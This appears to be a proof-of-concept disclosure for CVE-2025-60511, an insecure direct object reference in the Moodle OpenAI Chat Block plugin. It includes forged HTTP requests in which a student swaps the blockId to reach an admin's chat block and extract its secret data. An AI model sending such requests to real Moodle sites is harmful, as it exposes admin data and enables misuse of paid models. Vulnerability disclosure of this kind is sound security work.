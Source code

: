 # 🧪 Proof of Concept (PoC) – CVE-2025-60511

## 🎯 Vulnerability Summary

- **Vulnerability Type**: Insecure Direct Object Reference (IDOR)  
- **Component**: Moodle – OpenAI Chat Block Plugin (`block_openai_chat`) v3.0.1 (Build: 2025021700)  
- **Endpoint**: `/blocks/openai_chat/api/completion.php`  
- **Vulnerable Parameter**: `blockId`  
- **Impact**: Information Disclosure, Privilege Escalation, Potential Model Misuse  
- **Attack Prerequisites**: Authenticated low-privileged user (e.g., student or teacher)

---

## 🔍 Technical Description

The `completion.php` endpoint uses the `blockId` parameter to determine which chat block configuration (prompt templates, source of truth entries, model settings) to use when processing OpenAI completions.

However, there is **no access control** verifying that the user owns the block corresponding to the provided `blockId`.

This allows an **authenticated user** (such as a student) to:

- Impersonate other users’ blocks (including admins),
- Access administrator-only prompts and completions,
- Trigger queries using admin’s “source of truth” data,
- Execute high-cost models (e.g., GPT-4) improperly.

---

## 🛠️ Step-by-Step Exploit

### Prerequisites

- The attacker is a logged-in low-privileged user (e.g., student).
- The attacker has access to a valid chat block (e.g., `blockId=16` for student).
- OpenAI Chat Block Plugin is installed.
- Admin has Source of Truth configuration with:

Q: What is the admin-only secret?
A: TOP-SECRET-999

- Admin has configured the following prompt:

> **User:** `studentt`  
> **Assistant:** `Jarvis`

### Installation of Plugin

![alt text](ReachPlugin.png)

Add the plugin as Block in Moodle dashboard

![alt text](AddBlock.png)

Reach the plugin configuration

![alt text](configuration.png)

Configure the "Source of Truth", "User" and "Assistant" respectively:

![alt text](SourceOfTruth.png)

### 🧪 Step 1 – Test with Student’s Own Block

**Request:**

```http
POST /blocks/openai_chat/api/completion.php HTTP/1.1
Host: moodle.local:8080
Content-Type: application/json
Cookie: MoodleSession=d8fek3ffegu950aum8ii9vgmvv;

{
"message": "What is the admin-only secret?",
"history": [],
"blockId": 16
}
```
Response ->

"
The admin-only secret in a Moodle site typically refers to sensitive information or settings that are restricted to administrators. This could include access credentials, configuration options, or specific features that should not be accessible to regular users for security and privacy reasons. If you need assistance with something specific related to admin settings, please provide more details! 
"

That means student cannot reach via directly their correlated blockId's. Let's intercept.

### Step 2 – Forge Request with Admin’s Block

Request:

bash```
POST /blocks/openai_chat/api/completion.php HTTP/1.1
Host: moodle.local:8080
Content-Type: application/json
Cookie: MoodleSession=d8fek3ffegu950aum8ii9vgmvv;

{
  "message": "What is the admin-only secret?",
  "history": [],
  "blockId": 15
}
```

 Response:

bash```
 {
  "id": "chatcmpl-X",
  "message": "<pre><code class=\"sql\">SELECT 'TOP-SECRET-999' AS admin_only_secret;\n</code></pre>\n"
}
```

Change blockId as 15 then forward request with "Source of Truth".

![alt text](intercept.png)

Observe that any user with lowest privilege can treat & send request as Admin user.

![alt text](poc.png)

This proves the backend loaded the admin's Source of Truth completions.

### Impact

- Privilege Escalation: Any student can impersonate the behavior of admin blocks.

- Sensitive Information Disclosure: Admin-only prompt completions (e.g., secrets, hints) are exposed.

- Potential Resource Abuse: Admins might configure GPT-4 or high-cost models, which can be triggered by students.

### Discovered by

Onurcan Genç
Independent Security Researcher
https://linkedin.com/in/onurcangenc